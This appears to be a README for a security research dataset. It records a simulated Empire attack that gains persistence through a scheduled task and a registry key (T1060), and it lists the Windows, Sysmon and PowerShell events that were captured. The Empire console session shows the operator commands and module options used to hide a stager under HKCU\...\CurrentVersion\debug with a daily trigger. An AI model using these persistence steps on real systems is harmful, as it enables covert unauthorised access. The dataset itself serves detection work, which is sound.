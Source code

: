 
# Empire Userland Schedule Tasks

An adversary can create a registry key and scheduled task to maintain persistence in the environment.

## Technique(s) ID

T1060

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_userland_schtasks.tar.gz](./empire_userland_schtasks.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19024742

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |             139 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |             198 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |              88 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               7 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               6 |
| Security                                 | Microsoft-Windows-Security-Auditing | File Share                                             |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             161 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              69 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              33 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |              24 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              23 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |               8 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             116 |
| Microsoft-Windows-DNS-Client/Operational | Microsoft-Windows-DNS-Client        | na                                                     |             192 |

## Empire Activity

```
usemodule persistence/userland/schtasks
```

```
(Empire: powershell/persistence/userland/schtasks) > set Listener https
(Empire: powershell/persistence/userland/schtasks) > set TaskName Maintenance
(Empire: powershell/persistence/userland/schtasks) > info   

              Name: Invoke-Schtasks
            Module: powershell/persistence/userland/schtasks
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) using schtasks. This has a
  moderate detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  DailyTime  False       09:00                     Daily time to trigger the script        
                                                   (HH:mm).                                
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  TaskName   True        Maintenance               Name to use for the schtask.            
  IdleTime   False                                 User idle time (in minutes) to trigger  
                                                   script.                                 
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   False       https                     Listener to use.                        
  RegPath    False       HKCU:\Software\Microsoft  Registry location to store the script   
                         \Windows\CurrentVersion\  code. Last element is the key name.     
                         debug                   
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 11
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > SUCCESS: The scheduled task "Maintenance" has successfully been created.
Schtasks persistence established using listener https stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Maintenance daily trigger at 09:00.

(Empire: powershell/persistence/userland/schtasks) >
```